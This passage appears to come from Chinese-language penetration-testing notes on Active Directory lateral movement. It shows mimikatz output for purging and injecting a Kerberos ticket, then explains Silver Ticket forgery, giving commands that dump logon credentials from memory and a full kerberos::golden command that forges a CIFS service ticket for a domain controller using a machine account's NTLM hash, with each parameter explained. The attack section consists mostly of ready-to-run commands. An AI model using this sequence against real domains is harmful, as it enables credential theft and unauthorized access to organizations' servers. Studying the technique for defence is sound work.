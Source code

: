 导入：

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::ptt C:\Users\yutaowin10\Desktop\Tool\mimikatz\ticket.kirbi

* File: 'C:\Users\yutaowin10\Desktop\Tool\mimikatz\ticket.kir
```

再次访问域控即可成功。



### 白银票据

Silver Tickets（下面称银票）就是伪造的ST（Service Ticket），因为在TGT已经在PAC里限定了给Client授权的服务（通过SID的值），所以银票只能访问指定服务。

1.不需要与 KDC 进行交互 

2.需要 server 的 NTLM hash

mimikatz：

```
privilege::debug
sekurlsa::logonpasswords
```

![image-20220318202007613](内网渗透&横向移动/image-20220318202007613.png)

```
kerberos::golden /domain:ghost.com /sid:S-1-5-21-1238213221-2393825874-2881136966-500 /target:WIN-4JS3YOGGQ2T.ghost.com /service:cifs /rc4:520126a03f5d5a8d836f1c4f34ede7ce /user:new_user_gold /ptt

/domain
/sid
/target:目标服务器的域名全称，此处为域控的全称
/service:目标服务器上面的kerberos服务，此处为cifs
/rc4:计算机账户的NTLM hash，域控主机的计算机账户
/user:要伪造的用户名
```

